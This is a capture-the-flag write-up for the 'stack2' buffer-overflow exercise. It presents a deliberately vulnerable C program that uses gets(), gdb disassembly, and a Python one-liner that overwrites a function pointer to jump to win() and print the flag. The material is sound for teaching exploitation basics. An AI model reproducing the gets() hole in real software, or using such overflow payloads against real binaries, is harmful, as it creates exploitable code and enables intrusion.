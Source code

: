 ```yaml
---
title:  "Writeup: stack2"
date:   2019-04-18 17:00:00
categories: writeup 
layout: post
author: Aidan O'Keefe
---
```


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  char buffer[64];
  FILE *fp;

  printf("code flow successfully changed\n");
  
  fp  = fopen("./flag.txt", "r");
  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer );
  exit(0);
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

stack2 is a variation on concepts introduced in stack0 and stack1 about buffer overflows. In the past, when attacking these buffer overflow problems, we would try to overwrite a specific variable to match a given value, or to hold a value at all.

stack2 eschews this by instead providing us with the same vulnerability we've attacked in the past (via gets) but instead tasking us with overwriting a function pointer that will be called in the future. This is a very exaggerated example (don't expect many real binaries to feature such a blatant vulnerability) to teach us the concepts behind function pointers.

We are focused primarily on the last if statement in main, which holds the key to executing our exploit. As we can see above, fp is set to 0 by default. We can open up stack2 in gdb and run the command 'disas main' to see where this falls on the stack:

```asm
0x0804857c <+17>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048583 <+24>:    sub    esp,0xc
0x08048586 <+27>:    lea    eax,[ebp-0x4c]
0x08048589 <+30>:    push   eax
```

We can see that we are moving the value for fp to 'ebp-0xc'. We also see via the lea and push instructions that the start of our stack is being placed 0x4c bytes away; with a quick subtraction, we can see that the size of our buffer is therefore 0x4c - 0xc = 64 bytes. We can also find this by running the function with strings of increasing length using python to print the same character (for instance, 'A') until we seg-fault by trying to access code at 0x41414141. Why does this cause a segfault? Let's look further inside main in gdb:

```asm
0x08048592 <+39>:    cmp    DWORD PTR [ebp-0xc],0x0
0x08048596 <+43>:    je     0x80485b0 <main+69>
0x08048598 <+45>:    sub    esp,0x8
0x0804859b <+48>:    push   DWORD PTR [ebp-0xc]
0x0804859e <+51>:    push   0x8048678
0x080485a3 <+56>:    call   0x8048390 <printf@plt>
0x080485a8 <+61>:    add    esp,0x10
0x080485ab <+64>:    mov    eax,DWORD PTR [ebp-0xc]
0x080485ae <+67>:    call   eax
```
When the cmp instruction is run, the program is simply checking to see if the value of fp is not 0. If we have overwritten it, we'll skip the next instruction (which would jump over the inside of the if statement and instead exits the program) and move into the body of the if statement. This prints the value of fp, then tries to call whatever is located at the address that fp points to. If we've loaded an invalid address, such as 0x41414141 (all 'A's!), we'll encounter a segfault. If we've loaded in the value of another function, this will be executed!

 Our goal becomes simple: we need to overwrite this function pointer's value on the stack to the value of win(). How can we accomplish this? First, let's find the address of win by running 'disas win' in gdb:

```asm
Dump of assembler code for function win:
    0x0804850b <+0>:     push   ebp
    0x0804850c <+1>:     mov    ebp,esp
    0x0804850e <+3>:     sub    esp,0x58
    0x08048511 <+6>:     sub    esp,0xc
    0x08048514 <+9>:     push   0x8048640
    0x08048519 <+14>:    call   0x80483c0 <puts@plt>
    0x0804851e <+19>:    add    esp,0x10
    0x08048521 <+22>:    sub    esp,0x8
    0x08048524 <+25>:    push   0x804865f
```

Ah-ha! We can see the location in the text where win is located at is 0x0804850b. Our solution becomes trivial at this point: we need to create an exploit string with our given padding (64 characters) followed by the location of win() in little endian format. Remember that since Linux is little endian, we start with the least significant byte and move right to left:

```
> python -c "print 'A'*64 + '\x0b\x85\x04\x08'" | ./stack2
calling function pointer, jumping to 0x0804850b
code flow successfully changed
flag: hello world!
```

Congratulations! You've now successfully exploited stack2 and are ready to move on to some of the more complex stack problems. Get ready for no-op sleds and shellcode!
